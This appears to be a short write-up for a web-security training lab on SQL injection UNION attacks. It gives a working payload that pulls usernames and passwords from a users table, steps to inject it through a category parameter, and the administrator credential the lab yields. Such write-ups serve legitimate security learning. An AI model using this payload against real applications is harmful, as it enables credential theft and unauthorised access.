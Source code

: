 # Lab 03

## Lab: SQL injection UNION attack, retrieving data from other tables

**Objective:** retrieving data(username,password) from user tables

**Payload:** '+UNION+SELECT+username,+password+FROM+users--

**Step-by-step:**
1. Intercept filter & Modify the category parameter
2. Add the payload
3. Take the username & Password for admministrator 
4. Login with the credentials 

**Credentilas:** administrator:1xmohk9tt83ybnts830u

![426d9ad42c7045a4bf03ab2c870dad12](https://user-images.githubusercontent.com/44063862/106167814-94a31000-61c8-11eb-90d8-a7f8af00fdbb.png)

![18696dbae1e84db38be79e509bfbe877](https://user-images.githubusercontent.com/44063862/106167393-1cd4e580-61c8-11eb-88ad-620645079404.png)
